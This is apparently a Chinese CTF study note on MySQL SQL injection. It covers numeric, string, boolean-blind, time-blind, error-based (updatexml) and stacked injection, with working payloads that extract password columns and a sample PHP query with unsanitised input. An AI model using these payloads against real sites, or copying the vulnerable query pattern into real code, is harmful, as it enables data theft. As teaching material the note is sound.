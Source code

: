 #### 总结
除了以上两种识别方式，我们还可以通过随意输入一些URL，观察404和302跳转页面中是否包含CMS及版本号。

## CTF中的SQL注入

### SQL注入（mysql）

#### 数字型注入
test.php?id=2 -> true。返回记录。
test.php?id=3-1 -> true，返回id=2的记录。
说明mysql对3-1进行了计算，从数字运算这个特征可以判断该注入点为数字型注入，输入点$_GET['id']附近没有引号包裹，可以直接输入SQL查询语句。

mysql查询出两行记录（union select联合查询注入）但PHP源码限制只能显示一行记录的办法：
    1. 在原有数据后面加上`limit 1,1`参数，显示查询结果的第二条记录。
    1. 指定id=-1或一个很大的值，使第一条数据无法被查询到。（常用）

#### 字符型注入
与数字型注入相比，只是在GET参数输入的地方包裹了单引号（少部分情况为双引号）让其变成字符串。
在MySQL中，等号两边如果类型不一致则会发生强制转换，当数字和字符串数据比较时，字符串将被转换为数字再进行比较。
test.php?id=3-2，无返回结果，证明注入点不是数字型。继续尝试test.php?id=2a，返回id=2的结果，证明存在字符型注入。

    1. 尝试使用单引号闭合前面的单引号，（插入查询语句），再用`--%20`或`%23`注释后面的语句，注意在URL框输入时，`-- `和`#`以及`''`要进行URL编码。
    1. 除了注释，也可以使用单引号来闭合后面的单引号，eg: test.php?id=2'union select xxx '

#### 布尔盲注
test.php?id=1'and'f'='a'，猜中则返回id=1内容
更快的方法为 test.php?id=1'and'f'<'n'，二分法。
如何获取每一位字符？利用mysql的substring(),mid(),substr()等。

#### 时间盲注
php?id=1'or sleep(10)

#### 报错注入
mysql会将语句执行后的报错信息输出。
updatexml在执行时，第二个参数应该为合法的XPATH路径，否则会在引发报错时输出传入的参数。
id='1' or updatexml(1,concat(0x7e,(select pwd from wp_user)),1)
updatexml()报错注入，ref: https://blog.csdn.net/qq_37873738/article/details/88042610

#### 堆叠注入
当目标开启多语句执行时，可以采用多语句执行的方式修改数据库结构和数据。

### 注入点

#### 注入点在select_expr
AS别名：id=(select%20pwd%20from%20wp_user)%20as%20title

#### 注入点在table_reference
仍可以用别名取出数据：SELECT title FROM (SELECT pwd AS title FROM wp_user)x;

在该两处的注入，如果注入点有反引号包裹，那么需要先闭合反引号。

#### 注入点在WHERE或HAVING后
代码：`$res = mysqli_query($conn, "SELECT title FROM wp_news WHERE id = ${_GET[id]}");`
现实中最常遇到的情况，要先判断有无引号包裹，再闭合前面可能存在的括号，即可进行注入来获取数据。
